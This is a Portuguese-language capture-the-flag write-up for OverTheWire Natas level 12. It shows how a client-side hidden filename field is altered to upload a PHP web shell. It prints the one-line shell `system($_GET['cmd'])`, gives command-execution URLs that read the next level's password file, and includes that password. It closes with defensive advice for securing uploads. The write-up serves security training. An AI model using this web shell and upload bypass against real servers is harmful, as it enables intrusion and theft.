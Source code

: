 # 🕵️ Natas - Nível 12 (🇧🇷 Português)  
*Data: 03/06/2025*    
*Dificuldade: Média*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é identificar e explorar uma vulnerabilidade de upload de arquivos que permite a manipulação de nomes de arquivos no lado do cliente, resultando em Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas13).  

---

## 🔎 Análise

- A aplicação web em `http://natas12.natas.labs.overthewire.org/` oferece uma funcionalidade de upload de imagens JPEG com um limite de tamanho de 1KB.  
- Tentativas de bypass de extensão comuns (ex: `.php.jpg`, `test.php%00.jpg` - null byte) não funcionaram, pois o servidor sempre anexa `.jpg` ao nome final, invalidando a execução como PHP.  
- A análise do código fonte da página HTML revelou um campo oculto no formulário de upload: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- Este campo oculto pré-define o nome do arquivo que será salvo no servidor, incluindo a extensão `.jpg`, antes mesmo de o usuário selecionar o arquivo para upload.  
- A vulnerabilidade reside no fato de que o nome final do arquivo é controlado por um valor pré-populado no lado do cliente (via campo `hidden`), que pode ser interceptado e manipulado.
- Nosso objetivo é alterar a extensão de `.jpg` para `.php` no campo `filename` da requisição HTTP para que o servidor salve nosso arquivo com a extensão correta.
- O payload a ser enviado será um simples shell PHP: `<?php system($_GET['cmd']); ?>`, permitindo a execução de comandos via parâmetro `cmd` na URL. 

---

## 🧱 Etapas

1. Acessar a Aplicação: Navegar até `http://natas12.natas.labs.overthewire.org/`.  
2. Testar o Upload: Tentar fazer upload de um arquivo para observar o comportamento do servidor (renomeando para `.jpg`).  
3. Analisar o Código Fonte: Inspecionar o código HTML da página de upload para identificar o campo `input type="hidden" name="filename"`.  
4. Preparar o Payload: Criar um arquivo PHP (ex: `bypass.php`) com o conteúdo `<?php system($_GET['cmd']); ?>`.  
5. Interceptar a Requisição: Utilizando a ferramenta proxy `Burp Suite` para capturar a requisição de upload do arquivo.  
6. Manipular o Nome do Arquivo: Na requisição interceptada, localizar o parâmetro `filenamee` alterar sua extensão para `.php `(ex: c36r0bea02.jpg para c36r0bea02.php).  
7. Enviar a Requisição: Enviar a requisição modificada para o servidor.
8. Verificar Upload: O servidor retornará uma mensagem confirmando o upload do arquivo com a extensão .php (ex: The file `upload/dnfplwi4tz.php` has been uploaded).
9. Acessar o Shell Web: Navegar até a URL do arquivo PHP recém-enviado (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observar as mensagens de erro ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), que confirmam que o PHP está interpretando o arquivo.
10. Executar Comandos: Testar a execução de comandos adicionando o parâmetro cmd na URL (ex: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirmar o RCE.
11. Obter a Senha: Executar o comando para ler o arquivo de senha do Natas13: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.  

---

## 🔑 Senha Encontrada

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusão

A vulnerabilidade foi explorada com sucesso ao manipular o campo filename de um input hidden no formulário de upload, que era preenchido no lado do cliente. Isso permitiu o bypass da validação de extensão do servidor e o upload de um shell PHP. A execução remota de código foi confirmada e a senha para o próximo nível foi obtida. Este caso destaca o perigo de confiar em qualquer tipo de controle de entrada do lado do cliente para a segurança da aplicação, especialmente em funcionalidades de upload.

---

## 🧪 Comandos Utilizados

Conteúdo do arquivo shell.php:
PHP

<?php system($_GET['cmd']); ?>
Acesso ao shell web (após upload e manipulação do nome):  
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php`  
Verificar RCE:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=pwd`  
Obter senha do Natas13:   
`http://natas12.natas.labs.overthewire.org/upload/[nome_aleatorio].php?cmd=cat%20/etc/natas_webpass/natas13`  

---

## 🧠 Observações

Validação Server-Side é Crucial: Nunca confie em validações feitas apenas no lado do cliente (JavaScript, campos HTML ocultos). Sempre revalide todas as entradas no lado do servidor.
Whitelist para Extensões e Tipos MIME: Em vez de blacklists, use whitelists (listas de permissão) para extensões de arquivos e tipos MIME permitidos para upload.
Renomeação Segura de Arquivos: Ao renomear arquivos, use um nome gerado aleatoriamente e uma extensão validada no servidor, sem permitir qualquer entrada do usuário no nome ou extensão final.
Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório fora da raiz web ou configurado para não permitir execução de scripts.


---

## 📎 Scripts desenvolvidos

[bypass.php](): Um shell PHP simples (`<?php system($_GET['cmd']); ?>`) utilizado para a execução remota de comandos.

---

<p align="center"> <a href="../Natas11/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas13/Readme-BR.md">Proximo ➡️</a> </p>
